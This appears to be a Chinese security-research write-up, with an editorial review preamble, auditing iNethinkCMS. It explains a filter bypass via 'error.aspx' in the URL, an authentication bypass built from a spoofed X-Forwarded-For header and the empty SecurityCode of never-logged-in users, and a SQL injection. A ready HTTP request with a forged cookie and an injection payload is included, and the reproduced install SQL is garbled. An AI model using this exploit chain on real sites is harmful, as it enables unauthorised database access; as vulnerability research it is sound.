## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：knownexistingaccount neverloggedin soSecurityCodeempty; defaultCacheKey; spoofableXFF; URLerror.aspx bypass globalfilter;MSSQLerrorvisibility

- **事实待核（1）**：标题某CMS/ASPX.NET不精确，全文已确认iNethinkCMS，应改产品名与ASP.NET。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：严格从未登录账号/默认配置/可伪造IP条件写清楚，是高价值限定不应删。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（3）**：安装SQL INSERT列名明显错乱如UserGuid\],\],UserPowe，需要恢复；关键cookiehash计算可文本检核但未复现。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **实验改动边界（4）**：管理员人为新建无权限账号是实验准备，不是攻击者已拥有后台条件；生产必须已存在这种账号。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **结论使用边界（5）**：随机数穷举需量子计算机是无据夸张；最低32位调试器应匹配w3wp进程位数非只OS。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（6）**：没有CMS版本/官方源或修复，微信出处可溯；多步条件不是普遍匿名SQLi。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 基于 ASPX.NET 的某 CMS 漏洞分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/L54I1HHKD7hoelrKqWbdRA)

**0x00: 前言**



之前在 @Ivan1ee 師傅的群里有师父再问有没有人研究过这个 CMS，当时去官网下了源码初略看了一下没有发现啥问题，就搁置了一段时间，刚好最近有空就继续拿出来看看。 iNethinkCMS 基于. NET4.0 C# 分层开发, 是一款精致小巧、开源、免费的 CMS 网站管理系统。创新的模板引擎 (类标签式)、插件扩展技术, 可以适应各类的网站开发需要。直接从官网可以下载到相关代码

**0x01: 分析代码  
**

分析 aspx.net 代码我喜欢从 Global.asax 文件开始，Global 一般会实现一些全局方法。



根据 Inherits 属性找到继承的类，在 bin 目录下即可找到对应的文件，这里我们使用 Dnspy 进行反编译以及调试工作。

Dnspy 下载地址：

https://github.com/dnSpy/dnSpy

注意，使用 Dnspy 调试请选择对应的版本，我这里因为虚拟机是 32 位的就下载 32 位的版本，要不然找不到对应 IIS 进程



我们先看看 Application_BeginReques

Application_BeginRequest 是 ASP.NET 中的一个事件，它在处理每个请求之前被触发。当一个请求到达服务器时，ASP.NET 引擎会触发 Application_BeginRequest 事件，然后开始处理请求。

对于 Global.asax 中的一些特有方法大家可以参考我以前文章中的介绍

```
https://www.anquanke.com/post/id/195226

```

第一个 if 先判断 URL 中是否包含 error.aspx，给了我们第一个利用点。如果后续存在全局的 SQL 注入检测可以利用此逻辑绕过检测。

```
if (base.Request.Url.ToString().IndexOf("error.aspx") >= 0)
{
    return;
}

```

下面就是一些网站状态判断，以及 IP 黑名单判断。最后实现了 SQL 注入的全局检测，通过判断请求方法进入不同的处理逻辑





过滤了 GET、POST、Cookie、referer 参数，从全局进行了 SQL 注入的过滤。当然由于前面存在一个逻辑，我们只需要在 URL 中带上 error.aspx 即可绕过

**0x02: 残废的 SQL 注入漏洞  
**

全局搜了一下 base.Request.QueryString，来到了 iNethinkCMS.Web.inc.ajax，实际对应 inc/ajax.aspx。跟进到 Page_Load 方法，Page_Load 是 ASP.NET Web Forms 页面生命周期中的一个事件，它在页面加载时被触发。当客户端请求一个 Web Forms 页面时，ASP.NET 引擎会自动创建页面对象并触发 Page_Load 事件。在里边看到这样一段代码



在这里，text12 来自 base.Request.QueryString["Title"]，text12 被拼接到 SQL 语句中去，跟进 this.bll_content.GetRecordCoun 看看是不是执行 SQL 语句





跟进`SQLHelper.GetSingle  
`



``使用`sqlConnection`完成SQL查询并返回单个值，那我们确定这里存在一个SQL注入漏洞，我们返回ajax，寻找是否存在前置条件  
``



``需满足 `versionsMode` 的值等于 "checktitle"，继续往上看  
``



只有一个全局的 base.CheckUserPower("login");，从字面上来看应该是登录身份校验，跟进看看

**0x03: 苛刻的绕过鉴权  
**

我们跟进到 CheckUserPower 方法，单独拎出来写一章节的原因是这里鉴权存在一个苛刻的绕过条件。虽然苛刻但是也能绕过



先判断

```
if(string.IsNullOrEmpty(Command_Session.Get("admin_username")))

```

这一段用来检查会话中是否存在名为 "admin_username" 的变量，并判断该变量的值是否为空。如果变量的值为空，那么条件为真，可以执行相应的操作或逻辑。否则，如果变量的值不为空，条件为假，可以执行不同的操作或逻辑。

随后用`Command_Cookie.GetCookie`从 cookie 中取了两值，cookie_admin_username 和 cookie_admin_password

```
BLL_iNethinkCMS_User bll_iNethinkCMS_User = new BLL_iNethinkCMS_User();
Model_iNethinkCMS_User model_iNethinkCMS_User = new Model_iNethinkCMS_User();
model_iNethinkCMS_User = bll_iNethinkCMS_User.GetModel(text);
if (model_iNethinkCMS_User != null && Command_MD5.md5(this.siteConfig.CacheKey + Command_Function.GetUserIp() + model_iNethinkCMS_User.SecurityCode) == text2)

```

关键在这一段，使用 bll_iNethinkCMS_User.GetMode 方法查询用户信息



然后

```
if (model_iNethinkCMS_User != null && Command_MD5.md5(this.siteConfig.CacheKey + Command_Function.GetUserIp() + model_iNethinkCMS_User.SecurityCode) == text2)

```

看这个条件，先是判断用户是否存在，然后判断

```
Command_MD5.md5(this.siteConfig.CacheKey + Command_Function.GetUserIp() + model_iNethinkCMS_User.SecurityCode)

```

是否等于 text2，我们逐个拆解

this.siteConfig.CacheKey：从配置文件 sys.config 中读出来，值为 "CacheKey"



Command_Function.GetUserIp() : 如果前端存在 X-Forwarded-For 就从前端取，那么我们可控。



model_iNethinkCMS_User.SecurityCode：从数据中查出来，用户表中的字段。



似乎看到这里没有什么办法绕，三个参数中只有 SecurityCode 是不确定的，无法控制。寻找一下 SecurityCode 是如何生成的，是否可以计算预测



全局搜了一下，只有在用户每次登录后会生成一个 SecurityCode 并更新到数据库，每次登录更新一次。text 值由随机值 + 用户名生成，跟进 RandomCode 看看如何生成随机值的。



大概粗略的看了下這個隨機算法，穷举预测的概率很低，搞台量子计算机还有点希望。这里进入了死胡同，似乎无解了。突然脑壳抽风想一下当网站初始化的时候，也就是安装时会不会初始化一个值给 SecurityCode 的呢



看了下 install 页面并沒有相关处理逻辑，只有去读 install/mssqldb.file 的内容并在数据库执行的逻辑，看了下是官方给的安装 SQL 文件

```
INSERT [dbo].[iNethinkCMS_User] ([UserGuid],], [UserPowe [UserType], [UserName], [UserPass], [UserTrueName], [UserEmailr], [UserChannelPower], [UserRegTime], [SecurityCode]) VALUES ( N'7d4eef6c-c8cb-4049-841d-4769d22b5e36', 1, N'admin', N'96e79218965eb72c92a549dd5a330112', N'iNethinkCMS', N'69991000@qq.com', N'a,a1,a2,a3,a4,b,b1,b2,c,c1,c2,c3,d,d1,d2,f,f1,f2,f3,f4,f5,e,e1,e2,e3,e4,e5,e6,e7', N'0', GETDATE(), N'')

```

在网站初始化创建好后，系统并没有赋予给 SecurityCode 一个值，只有当用户第一次登陆后才会赋一个值给 SecurityCode，那么我们前面讲到

```
Command_MD5.md5(this.siteConfig.CacheKey + Command_Function.GetUserIp() + model_iNethinkCMS_User.SecurityCode)

```

这个逻辑，我们已知

this.siteConfig.CacheKey 默认为 CacheKey，

Command_Function.GetUserIp() 我们可控，可随意指定，

model_iNethinkCMS_User.SecurityCode 如果用户从未登录过系统则也为空，那么我们就可以满足这个逻辑从而进入下一步。这就是我说的苛刻的条件，需要一个系统用户从未登陆过后台，不一定是 Admin 用户，只要在 user 表中，且从未登陆过的用户都可以

为了验证这个猜想，我在后台新建了一个用户，不用赋予任何权限。默认即可



可以看到在用户从未登录的情况下，SecurityCode 的值是为空的。



这个猜想得到验证后我们回到 CheckUserPower(string byUserPower) 这个函数的实现过程中，继续看。可以看到当我们满足条件后就会赋予 session 相应的值。在 37 行会默认添加一个 login，字符给 SysLoginUserPower。让我们把思绪带回 0x01 中的 SQL 注入那一节，代码开头有一个 base.CheckUserPower("login")，那么这里在 37 行就会默认赋予一个 login。成功满足条件。造成 SQL 注入，让一个登录后的 SQL 注入，变成一个条件苛刻的登录前 SQL 注入



根据

```
Command_MD5.md5(this.siteConfig.CacheKey + Command_Function.GetUserIp() + model_iNethinkCMS_User.SecurityCode)

```

我们构造参数即可，

this.siteConfig.CacheKey 默认为 "CacheKey"，

Command_Function.GetUserIp() 可控，从前端取，我们设置 X-Forwarded-For：127.0.0.1 即可。

所以我们最终构造出

cookie_admin_password=md5(CacheKey127.0.0.1) 即可，

那么则为 8f334b5d7fb04b8345bb32cffd7d0b8a



最终这个认证的绕过方法为：

```
GET /inc/ajax.aspx?Act=checktitle&Title=1'and%201=@@version--&&a=error.aspx HTTP/1.1
Host: 192.168.111.130
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Forwarded-For:127.0.0.1
Cookie: cookie_admin_username=test; cookie_admin_password=8f334b5d7fb04b8345bb32cffd7d0b8a;
Accept-Encoding: gzip, deflate
Referer: http://192.168.111.130/
Connection: close
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="108", "Chromium";v="108", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Pragma: no-cache
Cache-Control: no-cache

```

首先我们需要在 URL 中添加一个 & a=error.aspx，这个是为了绕过全局的 SQL 注入拦截。具体原理前面有讲过，然后 cookie_admin_username 要设置为一个从未登陆过的用户的用户名，cookie_admin_password 设置为 8f334b5d7fb04b8345bb32cffd7d0b8a，X-Forwarded-For 设置为 127.0.0.1。当然其他值也可以，只要计算出对应的 cookie_admin_password 即可。

最终在未登录的情况下触发 SQL 注入。



**0x04: 其他  
**

这套 CMS 在登录的情况下可以利用的点还是挺多的，就不过多分析了。顺便在讲讲这种场景下如何使用 dnspy+iis 进行调试

这里我使用的是 iis10+dnspy 32 位。

当我们搭建好系统后，数据库以及 IIS 都已经配置好了，网站也能正常访问后 使用管理员身份打开 Dnspy



选择调试功能，附加到进程



找到 w3wp.exe 找不到就刷新几次，要不然就是版本不对。



找到下面的模块，选中你要调试的 dll, 然后右键点击转到模块



然后找到对应的代码逻辑打上断点即可



然后访问触发对应的页面即可进入断点



在数据库是 sql server 的场景下，在做代码审计时想看具体的 SQL 日志也是很方便，使用 Mssql 自带的 SQL Server Profiler 即可。

新建一个跟踪



随后查看对应的 SQL 日志即可



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
